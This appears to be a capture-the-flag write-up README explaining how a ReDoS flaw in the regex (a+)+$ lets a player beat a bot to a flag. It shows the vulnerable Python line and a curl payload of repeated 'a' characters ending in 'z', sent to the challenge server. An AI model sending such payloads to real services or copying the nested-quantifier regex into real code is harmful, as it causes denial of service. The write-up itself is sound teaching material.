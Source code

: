 # Fastest Robot Web Challenge

**Challenge Type:** Web Security / ReDoS Attack  
**Difficulty:** Medium  
**Author:** Mutt (UK CyberTeam)  
**Status:** ✅ SOLVED

## Challenge Info

- **URL:** https://cpp.bootupctf.net:8088/
- **Source Code:** `main.py`
- **Flag:** [REDACTED - Submit solution to competition organizers]

## Quick Solution

```bash
curl "https://cpp.bootupctf.net:8088/flag/$(printf 'a%.0s' {1..30})z"
```

## Challenge Description
"Put your web and code auditing skills to the test and exploit the vulnerability to get the flag!"

The challenge presents a race condition where you must access `/flag` before a robot does. The robot gets a 2-second head start.

## Vulnerability

**ReDoS (Regular Expression Denial of Service)** in regex pattern `(a+)+$`

### Source Code Analysis (main.py)
```python
def visit_url_with_regex_check(url):
    # ... path processing ...
    match = re.match("(a+)+$", path)  # VULNERABLE REGEX
```

## Files Structure

```
fastest_robot_web/
├── README.md              # This file
├── main.py               # Challenge source code
└── solution/
    ├── exploit_robot.sh          # Bash exploitation script
    ├── fastest_robot_solution.py # Initial analysis script
    ├── fastest_robot_solved.py   # Final solution documentation
    └── test_redos.py            # Local ReDoS testing
```

## Solution Summary

1. **Analysis:** Found vulnerable regex `(a+)+$` in source code
2. **Vulnerability:** Catastrophic backtracking with nested quantifiers  
3. **Exploit:** Send payload with 30 'a's followed by 'z'
4. **Result:** Bot regex hangs > 2 seconds, gets terminated, flag returned

**Working Exploit:**
```bash
curl "https://cpp.bootupctf.net:8088/flag/$(printf 'a%.0s' {1..30})z"
```

**Server Response:**
```
My robot had a head start... and you still beat him??? Fine, here's the flag: <b>[REDACTED]</b>
```

See `solution/` folder for detailed exploitation scripts and analysis.
